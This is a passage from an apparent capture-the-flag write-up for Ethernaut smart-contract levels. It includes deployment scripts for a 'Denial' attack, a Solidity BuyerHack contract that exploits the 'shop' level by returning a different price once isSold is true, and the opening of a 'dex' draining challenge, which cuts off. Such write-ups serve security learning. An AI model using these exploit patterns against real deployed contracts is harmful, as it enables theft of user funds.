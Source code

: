 ```javascript
const DenialHack = await hre.ethers.getContractFactory("DenialHack");
const denialHack = await DenialHack.deploy(denial.address);
await denialHack.deployed();
```

---

## shop

The goal is to set `price` different from what is defined in the contract after the sell. This challenge is very similar to the elevator challenge.

We need to implement a `Buyer` contract which returns different prices on subsequent `price` calls. But since `price` is a view call, we can not change state in the Buyer like we did in elevator. We'll check `isSold` and manipulate prices basis on the value

```solidity
contract BuyerHack is Buyer {
    Shop shop;

    constructor(address instance) {
        shop = Shop(instance);
        
    }

    function buy() public {
        shop.buy();
    }

    function price() public view returns (uint256) {
        if (shop.isSold()) {
            return 1;
        }
        return shop.price();
    }
}
```

```javascript
const BuyerHack = await hre.ethers.getContractFactory("BuyerHack");
const buyerHack = await BuyerHack.deploy(INSTANCE_ADDRESS);
await buyerHack.deployed();
const tx = await buyerHack.buy();
```

---

## dex

Goal is to drain 1 of the 2 tokens completely. After staring at the contract for a lot of time, I couldn't come up with any security flaw (solidity wise). I started triggering the swaps in the hope of finding out something new
